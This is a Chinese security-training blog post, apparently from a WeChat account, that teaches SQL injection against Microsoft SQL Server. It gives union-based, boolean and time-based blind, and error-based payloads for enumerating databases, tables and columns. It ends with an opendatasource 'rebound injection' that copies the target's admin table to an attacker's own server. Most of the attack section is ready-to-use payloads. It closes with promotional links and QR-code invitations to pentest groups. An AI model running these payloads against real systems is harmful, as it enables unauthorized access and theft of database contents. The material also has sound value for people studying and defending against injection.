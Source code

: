 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/oV1fV1WvBWOL86AKcIwuFQ)

**高质量的安全文章，安全 offer 面试经验分享**

**尽在 # 掌控安全 EDU #**

一. 前置知识
-------

1.master：系统自带库，存储着所有的信息  
sysdatabae: 系统自带库中的表，存储着所有的库名  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrvRLb01fuMIcgEDh2zRmmMeSGh3p4OeBNf15HiaRYSZEDpg1jCXfYrlPA/640?wx_fmt=png)  
name 表示库名，dbid 表示库的编号

2.sysobjects：每个库都有，系统库中的存储着所有的表名，其它库里的存着各自的表名  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrvIC4jetQOkJ2TzOf0Vyx1I3kacwoH2xWXUVHtmEPAItDlG2mtLg79yA/640?wx_fmt=png)  
name 表示表名， 每个表有自己特有的 id， xtype 表示这个表的类型  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrvP0ELc44Gfm2KIk1vh50ncibdQFGdrD4tnxQ8fTx8r3iayOfWliaXQJjBg/640?wx_fmt=png)

3.syscolumns：每个库都有，系统库中的存储着所有的字段名，其它库里的存着各自的字段名  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrvQ0rBelOI9icaHJW4DX28uA0R0iaN3LvdAan7juoCibaS0T5FxZibVumUxQ/640?wx_fmt=png)  
name 表示字段名， 通过 id 判断该字段属于哪个表

4. 其它内容

```
注释是 --
select db_name(N),N为空表示当前数据库，可以通过修改数字查询其他数据库名
select user 查询当前用户
select @@version 查询数据库版本
```

二. 联合查询
-------

部分内容和`access`注入相似，毕竟是一家, 比如没有`limit`，可以使用`top`配合`desc`和`not in`等。  
判断回显点  
union select 1,2,3  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrv1AibASia8WzeLlOIpGPz2qrh3ZyicyiaibWlSo4yNDmneD3YpP5AB2qAAvQ/640?wx_fmt=png)  
sqlserver 对字段的数据类型有要求，可以用 null 替代  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrvavZ3QaXRyUd41R8xoxIibdicGLk4hevZqtnZsqNNZoGZIwrN9w7F0QCA/640?wx_fmt=png)  
但是如果让前表不显示，后面就不用了考虑字段数据类型  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrvHsJOmsmMJuMHjUKH3AIAibOMoYYib2tVRW5Pq55YWWwhLtAQcrjpTMjQ/640?wx_fmt=png)  
查询表名  
指定`xtype`为`U`，表示用户的表

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrv92gJ6QHnLfFTicDmcBicmEqJNUd4gnEg6uicxJPpCkxTO2IF5CHfrHbhg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrv6oyibbicXdwheKEgZEQHpIFwHTdrNNCYuoB4UUoP9CoYWj90Sekib7OiaA/640?wx_fmt=png)  
查询字段名  
通过`id`指定表

```
SELECT * from users where id=1 and 1=2 union select top 1 1,2,name from sysobjects where id=1977058079
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrv2dwmyXhHWRDianWXMzO9nueZCuFH8qR4gTNaX5pSibGiaPyNjR89tDkkg/640?wx_fmt=png)

三. 盲注
-----

相关函数

```
len 判断长度
substring 截取字符串
ascii 转换成ascii码
if 判断
WAITFOR DELAY '0:0:5' 延时5秒
```

1. 判断数据库个数

```
?id=1 and (select count(name) from master..sysdatabases)=7?id=1 and (select count(*) from master..sysdatabases where dbid=7)=1
```

2. 判断当前数据库长度

```
and len(db_name())=6
```

判断其它数据库长度

```
?id=1 and len(db_name(1))=6
```

3. 判断当前库名

```
?id=1 and substring(db_name(),1,1)='t'
```

4. 库中表的个数

```
?id=1 and (select count(name) from sysobjects where xtype='U')=5
```

5. 判断表内容  
当前库第一个表的长度

```
?id=1 and len((select top 1 name from sysobjects where xtype='U'))=5
```

判断第一个表的表名

```
?id=1 and substring((select top 1 name from test..sysobjects where xtype='U'),1,1)='u'
```

判断当前数据库第 2 个表的长度

```
?id=1 and len((select top 1 name from sysobjects where xtype='U' and name not in(select top 1 name from sysobjects where xtype='U')))=6
```

判断第二个表的表名

```
?id=1 and substring((select top 1 name from sysobjects where xtype='U' and name not in(select top 1 name from sysobjects where xtype='U')),1,1)='e'
```

6. 时间盲注

```
?id=1 IF SUBSTRING(DB_NAME(),1,1)='a' WAITFOR DELAY '0:0:5'
```

四. 报错注入
-------

报错注入  
在帮助文档里找了好多函数，好像都能报错

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrvWa7LacmhlcKLpHOuzR0UW0F8NT9AjM4nwEia2gBtRrKqq6VbxkbrQEA/640?wx_fmt=png)

```
and convert(int,@@version)=1
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrvkQIcE4zkEU9WX3tdVRw4XCkCtvQQiarjXgeia81agrYtS8VicRbjkEOpA/640?wx_fmt=png)

```
and db_name(@@version)=1
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrvD7vtMUrZAY78p15nEbrsoeCCwNpicIXibwAba0asY9dKU2RU6nunFh7w/640?wx_fmt=png)

```
and file_name(db_name())=1
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrvycxhW17icHlwNMd1PvWwCBOJLAsiaRcDRXlB4wsaQcUOiarub9B8CWjZQ/640?wx_fmt=png)

```
and col_name(@@SERVERNAME,db_name())=1
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrvvQxbj6jnSSq06HtAThNEw3II3sJEYb06ibJbRvKnM9t52WU06BlwiaKg/640?wx_fmt=png)  
注意，col_name 需要两个参数，但是报错只能显示一个

```
and filegroup_name(db_name(1)=1
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpQg4ufWoPSqGLBzsgoDXrvItyIDyAcyLNH21Pj4uzQqBdSGia6VcvIicZiblwvDth9oX1u4beOhl9nA/640?wx_fmt=png)

```
and PARSENAME(db_name(1),1)=1
```

注：还有好多，基本抓一个都能用，在帮助文档里输入`name`, 出来的函数都可以试一试

反弹注入

```
反弹注入
insert into opendatasource('sqloledb','server=mssql服务器地址（）,端口;
uid=账号;pwd=密码;database=数据库名').数据库名.dbo.表名 select * from admin
```

注意，创建的表需要和目标表的字段数相同，或者把`*`换成想要的字段。

  

**回顾往期内容**

[一起来学 PHP 代码审计（一）入门](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487858&idx=1&sn=47c58061798afda9f50d6a3b838f184e&chksm=fa686803cd1fe115a3af2e3b1e42717dcc6d8751c888d686389f6909695b0ae0e1f4d58e24b3&scene=21#wechat_redirect)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[新时代的渗透思路！微服务下的信息搜集](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487493&idx=1&sn=9ca65b3b6098dfa4d53a0d60be4bee51&chksm=fa686974cd1fe062500e5afb03a0181a1d731819f7535c36b61c05b3c6144807e0a76a0130c5&token=1892203713&lang=zh_CN&scene=21#wechat_redirect)
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[反杀黑客 — 还敢连 shell 吗？蚁剑 RCE 第二回合~](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247485574&idx=1&sn=d951b776d34bfed739eb5c6ce0b64d3b&chksm=fa6871f7cd1ff8e14ad7eef3de23e72c622ff5a374777c1c65053a83a49ace37523ac68d06a1&token=1892203713&lang=zh_CN&scene=21#wechat_redirect)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[防溯源防水表—APT 渗透攻击红队行动保障](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487533&idx=1&sn=30e8baddac59f7dc47ae87cf5db299e9&chksm=fa68695ccd1fe04af7877a2855883f4b08872366842841afdf5f506f872bab24ad7c0f30523c&token=1892203713&lang=zh_CN&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[实战纪实 | 从编辑器漏洞到拿下域控 300 台权限](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487476&idx=1&sn=ac9761d9cfa5d0e7682eb3cfd123059e&chksm=fa687685cd1fff93fcc5a8a761ec9919da82cdaa528a4a49e57d98f62fd629bbb86028d86792&token=1892203713&lang=zh_CN&scene=21#wechat_redirect)
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

![](https://mmbiz.qpic.cn/mmbiz_gif/BwqHlJ29vcqJvF3Qicdr3GR5xnNYic4wHWaCD3pqD9SSJ3YMhuahjm3anU6mlEJaepA8qOwm3C4GVIETQZT6uHGQ/640?wx_fmt=gif)

扫码白嫖视频 + 工具 + 进群 + 靶场等资料

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpx1Q3Jp9iazicHHqfQYT6J5613m7mUbljREbGolHHu6GXBfS2p4EZop2piaib8GgVdkYSPWaVcic6n5qg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqJvF3Qicdr3GR5xnNYic4wHWFyt1RHHuwgcQ5iat5ZXkETlp2icotQrCMuQk8HSaE9gopITwNa8hfI7A/640?wx_fmt=png)

 **扫码白嫖****！**

 **还有****免费****的配套****靶场****、****交流群****哦！**